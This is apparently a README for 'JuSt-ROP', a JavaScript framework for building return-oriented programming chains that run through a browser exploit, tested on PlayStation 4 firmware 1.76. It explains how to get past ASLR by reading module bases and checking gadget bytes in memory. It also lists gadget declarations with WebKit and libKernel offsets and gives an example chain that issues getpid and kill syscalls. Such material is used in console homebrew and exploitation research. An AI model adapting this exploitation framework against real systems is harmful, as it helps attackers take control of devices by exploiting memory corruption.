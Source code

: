 # JuSt-ROP
A framework which lets you directly write dynamic ROP chains in JavaScript before executing them via a browser exploit.

Using JavaScript to write and execute dynamic ROP chains gives us a tremendous advantage over a standard buffer overflow attack.

For one thing, we can read the modules table and calculate the addresses of all gadgets before we trigger ROP execution, bypassing ASLR.

We can also read the user agent of the browser, and provide a different ROP chain for different browser versions.

We can even use JavaScript to read the memory at our gadgets' addresses to check that they are correct.

Writing ROP chains dynamically, rather than generating them with a script beforehand, just makes sense.

## Porting to your exploits
All gadgets and chains shown here were tested on PlayStation 4 firmware 1.76. To use this with any other exploit you will need to make several manual tweaks (for 32bit, you should replace things like `* 8` with `* 4` for example).

Expose the following globally:
* `getU8(address)`, `getU64(address)`, and `setU64(address, value)`
* `stackBase`
* `returnAddress` (so `stackBase + returnAddress` points to the return value of a function)
* `moduleBases` (an array of module base addresses)

Then place your gadgets in the the `gadgets` array, using this syntax to declare a gadget:

    gadget(instructions, module, address)

For example:

    // moduleBases[webkit] is the base address of the webkit module
    var webkit = 14;
    var libKernel = 1;
    
    var gadgets = {
        "mov [rax], rcx": new gadget([0x48, 0x89, 0x08], webkit, 0x9ecde6),
        "mov [rax], rdx": new gadget([], webkit, 0x3579c0),
        "mov [rax], rsi": new gadget([], webkit, 0x2adea7),
        
        "mov [rdi], rax": new gadget([0x48, 0x89, 0x07], libKernel, 0xb0c8),
    }

The `instructions` parameter is optional, if it is non-empty then the memory at the gadget's pointer will be checked to ensure that it is correct (and followed by a `ret` instruction).

## Usage
Make sure to include `just-rop.js` before `gadgets.js` to avoid getting a reference error:

    <script type="text/javascript" src="just-rop.js"></script>
    <script type="text/javascript" src="gadgets.js"></script>

And what you can do now depends largely on what gadgets you have available, and the system that you are exploiting (sandboxing might disable some system calls for example).

Here's a simple example chain:

    var chain = new rop(stackBase + returnAddress + 0x420);
    
    var SIGKILL = 9;
    
    try {
        chain.syscall("getpid", 20);
        
        // rax is the return value
        chain.write_rax_ToVariable(0);
        
        chain.read_rdi_FromVariable(0);
        
        // rdi already has desired value so don't overwrite it
        chain.syscall("kill", 37, undefined, SIGKILL);
        
        chain.execute();
    }
    catch(e) {
        logAdd("Incorrect gadget address " + e.toString(16));
    }
    
    chain.logVariable(0);

